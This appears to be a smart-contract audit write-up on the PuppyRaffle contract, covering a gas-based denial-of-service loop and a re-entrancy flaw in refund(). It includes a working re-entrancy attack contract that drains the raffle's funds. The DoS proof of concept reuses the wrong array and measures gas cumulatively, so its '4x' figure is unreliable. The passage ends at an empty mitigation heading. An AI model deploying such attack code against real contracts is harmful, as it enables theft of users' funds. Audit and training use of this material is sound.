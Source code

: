 ### [Medium-1] An unbounded for loop that results into denial of service

**Description:** 

`PuppyRaffle::enterRaffle` implements a for loop logic that checks for duplicate address by running the check through the array, `PuppyRaffle::players` with a dynamic size. This check can get slowly gas expensive as new address is added to the array and more check is done OR exponentially gas expensive if exploited by attacker.
<details>
<summary>Code</summary>

```javascript
     // @Audit DoS attack
@>      for (uint256 i = 0; i < players.length - 1; i++) {
            for (uint256 j = i + 1; j < players.length; j++) {
                require(players[i] != players[j], "PuppyRaffle: Duplicate player");
            }
        }


```
</details>

**Impact:** 

Due to the unlimited size of the state variable array, `PuppyRaffle::players`, an attacker can exploit `PuppyRaffle::enterRaffle` by exponentially increasing the size of `PuppyRaffle::players`. This makes `PuppyRaffle::enterRaffle`  gas expensive while checking for duplicates address in the for loop. Exponential increase of the size of the array, `PuppyRaffle::players` will render it too expensive. Therefore, economically infeasible for users. Thereby limiting the winner address to attacker's array of addresses.

**Proof of Concept:**

For the first 100 players that entered the raffle, we have the gas to be: `6270396`
While the second 100 players to be: `24361862`

Therefore, this `4x` gas expensive for the second 100 players

<details>

<summary>PoC</summary>

place the following test into the test suite: `PuppyRaffleTest.t.sol`

```Javascript
 function test_DOSAttack() public {
        vm.txGasPrice(1);
        uint initial = gasleft();

        uint playerNumber = 100;

        //initialize an array for first 100 players
        address[] memory DoS_array = new address[](playerNumber);
        for (uint160 i = 0; i < playerNumber; i++) {
            DoS_array[i] = address(i);
        }
        puppyRaffle.enterRaffle{value: entranceFee * playerNumber}(DoS_array);
        //how much gases consumed?
        uint256 gases = initial - gasleft();
        console.log(gases);

        //the gas is astronomically high for second 100 players
        

        address[] memory DoS_arraySecond = new address[](playerNumber);
        for (uint160 i = 0; i < playerNumber; i++) {
            DoS_array[i] = address(i + playerNumber);
        }
        puppyRaffle.enterRaffle{value: entranceFee * playerNumber}(DoS_array);
        //how much gases consumed?
        uint256 gasesSecond = initial - gasleft();
        console.log(gasesSecond);
        assert(gases < gasesSecond);
    }
```
</details>

**Recommended Mitigation:** 
1. The protocol might consider allowing duplicate address. This can be taken into consideration since an attacker can
enter the raffle with multiple addresses to bypass the "duplicate check." So, what use then?

2. Consider using a mapping to check duplicates. Each address that has entered the raffle can be mapped to `bool value:true`. This would allow check for duplicate in constant time.

```diff
-    for (uint256 i = 0; i < players.length - 1; i++) {
-            for (uint256 j = i + 1; j < players.length; j++) {
-               require(players[i] != players[j], "PuppyRaffle: Duplicate player");
-            }
-        }

+    mapping(address => bool) public isAddressEntered;


+  for (uint256 i = 0; i < newPlayers.length; i++) {
+      if (!isAddressEntered[newPlayers[i]]) {
+               players.push(newPlayers[i]);
+               isAddressEntered[newPlayers[i]] = true;
+           } else if (isAddressEntered[newPlayers[i]]) {
+               revert("PuppyRaffle: Duplicate player");
+           }
+ }
```
3. Lastly, you can implement [Openzepplin Enumerable library](https://docs.openzeppelin.com/contracts/4.x/api/utils#EnumerableSet)


### [High-#] RE-ENTRANCY ATTACK: Making external call before state change which would drain the contract balance

**Description:** 
`PuppyRaffle::refund` can be called repeatedly by another contract before its first invocation finishes due to it making 
external call before updating the state variable

```javascript

    @External call>    payable(msg.sender).sendValue(entranceFee);

    @State change>   players[playerIndex] = address(0);
```

**Impact:** 

An attacker can readily enter as a legitimate participant of the raffle and repeatedly exploit the `PuppyRaffle::refund` 
to drain the `PuppyRaffle` contract balance.

**Proof of Concept:**

Paste this test suite in the `PuppyRaffleTest.t.sol` 
<details>
<summary> Proof of Code </summary>

```javascript
   
    function testCanEnterRaffleReentrancy() public {
        //legitimate participants of the PuppyRaffle
        address[] memory players = new address[](4);

        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = playerThree;
        players[3] = playerFour;
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);
        uint raffleBalance_beforeAttack = address(puppyRaffle).balance;

        //An attacker enters the raffle with the intention of stealing all funds
        //in the puppyRaffle contract

        REENTRANCY_ATTACK AttackContract = new REENTRANCY_ATTACK(puppyRaffle);
        // address prankin = address(Attack);
        address attacker = makeAddr("Attacker");

        vm.deal(attacker, 2 ether);

        vm.prank(attacker);
        AttackContract.lets_play{value: entranceFee}();

        //Sending payload-
        AttackContract.attack();

        //Raffle balance after successful attack
        uint raffleBalance_afterAttack = address(puppyRaffle).balance;

        //attack contract balance after attack
        uint attackBalance = address(AttackContract).balance;

        //PROOF
        console.log("raffle balance before attack", raffleBalance_beforeAttack);
        console.log("raffle balance after attack", raffleBalance_afterAttack);

        console.log("AttackContract balance after attack", attackBalance);
    }


contract REENTRANCY_ATTACK {
    PuppyRaffle puppyRaffle;
    uint public playerIndex;
    uint public entranceFee;

    constructor(PuppyRaffle raffle) {
        puppyRaffle = raffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    function lets_play() public payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);
        playerIndex = puppyRaffle.getActivePlayerIndex(address(this));
    }

    function attack() public {
        puppyRaffle.refund(playerIndex);
    }

    receive() external payable {
        if (address(puppyRaffle).balance >= 1 ether) {
            puppyRaffle.refund(playerIndex);
        }
    }

    fallback() external payable {}
}

```
</details>

**Recommended Mitigation:** 